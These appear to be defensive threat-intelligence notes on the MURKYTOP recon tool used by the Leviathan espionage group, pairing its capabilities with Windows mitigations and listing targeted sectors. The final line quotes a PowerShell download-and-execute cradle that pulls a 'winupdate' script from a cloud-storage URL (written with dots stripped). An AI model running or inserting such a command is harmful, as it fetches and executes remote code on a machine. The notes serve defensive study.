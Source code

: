 MURKYTOP       

- command line recon tool 
> When PowerShell is necessary, restrict PowerShell execution policy to administrators Be aware that there are methods of bypassing the PowerShell execution policy, depending on environment configuration [OS_configuration]


- can execute files or scripts as a different user remotely
> On Windows 10, enable Attack Surface Reduction (ASR) rules to prevent Visual Basic and JavaScript scripts from executing potentially malicious downloaded content [behavior_prevention_on_endpoint]
>


- move \ delete local files 
> Obfuscate/encrypt event files locally and in transit to avoid giving feedback to an adversary [encrypt_sensitive_information]
> Automatically forward events to a log server or data repository to prevent conditions in which the adversary can locate and manipulate data on the local system [remote_data_storage]


- schedule remote AT jobs
> Configure settings for scheduled tasks to force tasks to run under the context of the authenticated account instead of allowing them to run as SYSTEM [OS_configuration]
HKLM\SYSTEM\CurrentControlSet\Control\Lsa\SubmitControl
> Configure the Increase Scheduling Priority option to only allow the Administrators group the rights to schedule a priority process [priviledged_account_management]
configure through group policy 


- perform host discovery on connected networks
> Ensure that unnecessary ports and services are closed to prevent risk of discovery and potential exploitation



- retrieve OS and user information
> Prevent administrator accounts from being enumerated when an application is elevating through UAC since it can lead to the disclosure of account names [OS_configuration]
HKLM\ SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\CredUI\EnumerateAdministrators


- scan for open ports on hosts in a network 
-  

used by Leviathan

- Chinese state-sponsored cyber espionage group
- targets the following sectors:
academia
aerospace
biomedical
defense industrial base
government
healthcare
manufacturing
maritime
transportation


IEX(New-Object NetWebClient)downloadString('https://tueoeoslxos3us-west-2amazonawscom/winupdaterps1')
